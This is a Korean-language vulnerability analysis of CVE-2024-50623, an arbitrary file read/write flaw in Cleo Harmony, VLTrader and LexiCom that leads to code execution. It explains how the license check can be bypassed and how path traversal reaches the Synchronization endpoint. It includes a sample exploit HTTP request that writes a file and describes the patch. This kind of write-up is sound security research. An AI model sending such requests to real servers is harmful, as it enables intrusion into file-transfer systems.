

## URL

[https://labs.watchtowr.com/cleo-cve-2024-50623/](https://labs.watchtowr.com/cleo-cve-2024-50623/)

## Target

- Cleo Harmony < 5.8.0.21
- Cleo VLTrader < 5.8.0.21
- Cleo LexiCom < 5.8.0.21

## Explain

Cleo의 파일 전송 소프트웨어인 Harmony,  VLTrader, LexiCom에서 임의 파일 읽기/쓰기 취약점이 발생해 임의 코드 실행이 가능했습니다.

취약점은 클러스터 노드 간의 파일 동기화를 처리하는 엔드포인트인 `/Synchronization`에서 발생했고 이는 Syncer.java에 구현되어 있습니다.

먼저 아래는 `/Synchronization`으로 들어온 HTTP 요청을 핸들링하는 `syncIn` 메소드의 코드 중 일부입니다.

```java
public int syncIn(HttpServletRequest httpRequest, HttpServletResponse httpResponse) {
        int statusCode = 500;
        InputStream in = null;
        int len = 0;

        try {
            in = httpRequest.getInputStream();
            len = httpRequest.getContentLength();
            boolean found = false;
            Enumeration headers = httpRequest.getHeaderNames();

            while(headers.hasMoreElements()) {
                String header = (String)headers.nextElement();
                if (header.equalsIgnoreCase(SYNC_HEADER)) {
                    found = true;
                    String value = httpRequest.getHeader(header);
                    String serialNumber = getDecodedParameterValue(value, "l", true);
                    if (hasToken(value, START)) {
                        // ... omitted ...
                        break;
                    }

                    if (!hasToken(value, ADD) && !hasToken(value, UPDATE) && !hasToken(value, REMOVE)) { 
```

가장 먼저 요청 헤더를 파싱하는 것을 볼 수 있고 아래와 같은 형식의 `SYNC_HEADER`(”VLSync”) 라는 이름의 헤더를 찾으면 이를 파싱해서 command, `l`, `v` 등의 파라미터를 가져옵니다.

```
VLSync: Retrieve;l=Ab1234-RQ0258;n=VLTrader;v=5.7.0.0
```

이 중에서도 `l`은 라이선스의 시리얼 넘버로 아래의 `IslValid` 메소드를 통해 유효성을 검사합니다. 하지만 유효성을 검사하는 코드는 그리 복잡하지 않기 때문에 `[1]`의 `License.scramble(serialNumber.substring(0, 6)).equals(serialNumber.substring(7))`를 만족하는 시리얼 넘버를 직접 생성해서 사용할 수 있습니다.

```java
String serialNumber = getDecodedParameterValue(header, VLAdminCLI.LIST_FLAG, true);

if (!islValid(serialNumber) || ... ) {
            statusCode = 403;
...
protected static boolean islValid(String serialNumber) {
     if (serialNumber == null) {
         return false;
      } else if (serialNumber.length() == 13 && serialNumber.charAt(6) == '-') {
          if (!License.scramble(serialNumber.substring(0, 6)).equals(serialNumber.substring(7))) {//[1]
              return false;
          }
      }
      // ... further code omitted ..
    }
    
public static String scramble(String serial) {
        int shift = 0;

        for(int i = 0; i < serial.length(); ++i) {
            shift ^= serial.charAt(i);
        }

        StringBuffer sb = new StringBuffer(serial);
        sb.setCharAt(0, shiftLetter(Character.toUpperCase(sb.charAt(0)), shift + 4));
        sb.setCharAt(1, shiftLetter(Character.toUpperCase(sb.charAt(1)), shift + 2));
        sb.setCharAt(2, shiftNumber(sb.charAt(2), shift));
        sb.setCharAt(3, shiftNumber(sb.charAt(3), shift + 1));
        sb.setCharAt(4, shiftNumber(sb.charAt(4), shift + 3));
        sb.setCharAt(5, shiftNumber(sb.charAt(5), shift + 5));
        return sb.toString();
    }
```

이후 command에 따라 다른 동작이 호출되며 임의 파일 읽기는 `Retrieve` command를 처리하는 아래의 `retreive` 메소드에서 발생합니다.

```c
    private int retrieve(String header, HttpServletResponse httpResponse) {
        String serialNumber = getDecodedParameterValue(header, VLAdminCLI.LIST_FLAG, true);
        // ... omitted ...
        String path = fixPath(getParameterValue(header, "path", false));//[2]
        // ... omitted ...
        if (statusCode == 200) {
            try {
                byte[] bytes = fetchLocalFile(path, LexBean.decrypt(tempPassphrase));
                fireRetrieveEvent(path);
                statusCode = 200;
                httpResponse.setStatus(200);
                httpResponse.setContentLength(bytes.length);
                httpResponse.setHeader("Connection", "close");
                ServletOutputStream outputStream = httpResponse.getOutputStream();
                outputStream.write(bytes);
                outputStream.close();
            } catch (FileNotFoundException e) {
                statusCode = 404;
            } catch (Exception ex) {
                // ... omitted ...
            }
        }
        return statusCode;
    }
```

`retreive`는 VLSync(`SYNC_HEADER`) 헤더에서 `path` 파라미터를 가져와서 `fetchLocalFile`로 `path`가 지정한 경로에 있는 파일 데이터를 읽고 이를 http 응답으로 반환합니다.

이때 `path`의 값을 검사하지 않고 사용했기 때문에 `..\`를 포함시키면 path traversal이 발생했고 아래처럼 임의의 파일을 읽는 것이 가능했습니다.



다음으로 임의 파일 쓰기는 `ADD` 커맨드의 처리 과정에서 호출되는 `fileIn` 메소드에서 발생했습니다

```java
private int fileIn(String header, InputStream in, int length) throws Exception {
        int statusCode = 200;
        String serialNumber = getDecodedParameterValue(header, "l", true);
        // ... omitted ...
        String path = this.fixPath(getParameterValue(header, "path", false));
        // ... omitted ...
        if (file.exists() && !file.canWrite()) {
            statusCode = 403;
        } else {
```

`retreive`와 동일하게 `path` 파라미터를 파싱하고 이 경우에는 쓸 파일의 경로를 지정하게 됩니다. 이후 파일이 이미 존재하는지, 해당 경로에 쓰는 것이 가능한지를 확인하고 가상 디렉터리 체크를 모두 통과하면 아래의 코드가 실행되면서 HTTP 요청 바디의 데이터가 지정된 경로의 파일에 쓰이게 됩니다.

```java
OutputStream out = LexIO.getFileOutputStream(otherFile, false, true, false);
if (length > 0) {
  LexiCom.copy((InputStream)in, out);
}
((InputStream)in).close();
out.close();
```

이때 임의 파일 읽기와 마찬가지로 path traversal이 발생하면서 아래와 같은 HTTP 요청으로 임의 파일 쓰기가 가능했습니다.

```java
POST /Synchronization HTTP/1.1
Host: 192.168.1.18:5080
VLSync: ADD;l=Ab1234-RQ0258;n=VLTrader;v=5.7.0.0;a=192.168.1.100;po=5080;s=True;b=False;pp=myEncryptedPassphrase;path=..\..\..\test.txt
Content-Type: multipart/form-data; boundary=-----1337
Content-Length: 10

watchTowr is k3wl
```

RCE는 임의 파일 쓰기를 통해 Startup 폴더 등에 파일을 생성하는 것을 통해 가능했고 취약점은 패치로 추가된 아래의 `validatePath`가 `path` 파라미터의 데이터를 검사하면서 발생하지 않게 되었습니다.

```java
protected int validatePath(String path) {
    try {
        if (!Strings.isNullOrEmpty(path)) {
            URI uri = new URI(path);
            if (!Strings.isNullOrEmpty(uri.getScheme())) {
                return ServiceException.REMOTE_IO_EXCEPTION;
            }
        }
    } catch (URISyntaxException e) {
    }
    String path2 = FilenameUtils.normalize(path);
    if (Strings.isNullOrEmpty(path2)) {
        return ServiceException.REMOTE_IO_EXCEPTION;
    }
    String relativePath = LexIO.getRelative(path2);
    if (relativePath.startsWith("/") || relativePath.startsWith("\\") || new File(path2).isAbsolute()) {
        return ServiceException.REMOTE_IO_EXCEPTION;
    }
    String relativePath2 = relativePath.toLowerCase().replace("\\", "/");
    for (String rootpath : UNPROTECTED_PATHS) {
        if (relativePath2.startsWith(rootpath)) {
            return 200;
        }
    }
    for (String rootpath2 : PROTECTED_PATHS) {
        if (relativePath2.startsWith(rootpath2)) {
            return ServiceException.REMOTE_IO_EXCEPTION;
        }
    }
    return 200;
}
```